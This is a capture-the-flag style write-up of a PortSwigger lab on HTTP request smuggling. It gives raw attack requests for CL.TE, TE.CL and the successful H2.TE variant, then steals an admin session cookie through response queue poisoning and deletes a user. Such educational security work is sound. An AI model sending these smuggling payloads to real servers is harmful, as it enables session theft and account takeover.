 # Response queue poisoning via H2.TE request smuggling | Feb 13, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling), you'll learn: Response queue poisoning via H2.TE request smuggling! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

> Note: This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210170333.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171026.png)

Let's send that request to Burp Suite's Repeater, and test HTTP request smuggling:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171103.png)

Then change the request method to POST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171138.png)

First, we'll test CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) HTTP request smuggling.

- Send an attack request:

```http
POST / HTTP/1.1
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding : chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171417.png)

- Send a normal request:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171452.png)

Nope. It doesn't work.

Next, we'll test TE.CL (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header) HTTP request smuggling.

- Send an attack request:

```http
POST / HTTP/1.1
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding : chunked

aa

GET /404pls HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171937.png)

- Send a normal request:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171946.png)

Still nope...

Now, what if I upgrade the HTTP to version 2 (HTTP/2)?

To do so, we'll need to:

- Enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) and disable option "Update Content-Length" in Burp Suite's Repeater:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210173050.png)

- Manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210172815.png)

**Then, we can send an attack request:**
```http
POST / HTTP/2
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

smuggled
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210173126.png)

**After that, when we send the second request, it returns a 404 response:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210173210.png)

Now, we can confirm that **the web application is vulnerable to H2.TE (Front-end uses HTTP/2, back-end uses `Transfer-Encoding` header) HTTP request smuggling.**

**In here, we can try to smuggle a complete request.**

If we instead smuggle a request that also contains a body, the next request on the connection will be appended to the body of the smuggled request. This often has the side-effect of truncating the final request based on the apparent `Content-Length`. As a result, the back-end effectively sees three requests, where the third "request" is just a series of leftover bytes.

- Send an attack request:

```http
POST /404pls HTTP/2
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net


```

In here, we're going to a non-existent endpoint, so that we can verify the smuggling worked. Also, in the smuggled body, we downgraded the HTTP version to HTTP/1.1.

**When we send that request, we should receive a 404 response:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210174412.png)

**Now, we can poison the response queue by sending that request, and capture victim's session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210174540.png)

Normally, we would receive a 404 response. This time, however, we received a 302 response. That being said, we successfully captured a victim's response!

**Since we captured a session cookie, we can try to access to the admin panel:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230213202504.png)

Boom! We can access to the admin panel!

**Let's delete user `carlos`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230213202550.png)

Nice!

# What we've learned:

1. Response queue poisoning via H2.TE request smuggling